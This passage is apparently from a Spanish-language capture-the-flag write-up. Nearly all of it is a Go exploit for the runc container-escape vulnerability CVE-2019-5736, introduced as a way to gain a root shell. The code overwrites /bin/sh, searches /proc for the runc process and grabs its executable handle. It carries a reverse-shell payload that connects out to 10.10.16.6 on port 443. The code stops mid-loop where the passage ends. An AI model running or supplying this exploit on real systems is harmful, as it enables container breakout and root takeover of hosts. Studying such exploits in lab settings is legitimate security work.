 Vamos a usar el siguiente archivo .go para ganar una shell como root.

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.16.6/443 0>&1"

func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
```